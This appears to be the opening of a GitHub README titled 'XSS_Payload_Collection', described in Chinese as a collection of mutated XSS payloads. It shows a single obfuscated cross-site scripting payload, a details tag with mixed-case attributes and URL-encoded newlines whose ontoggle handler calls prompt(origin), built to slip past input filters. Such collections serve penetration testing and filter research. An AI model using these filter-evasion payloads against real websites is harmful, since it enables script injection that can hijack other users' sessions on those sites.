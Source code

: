 # XSS_Payload_Collection
变形 XSS Payload 收集

```html
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
```
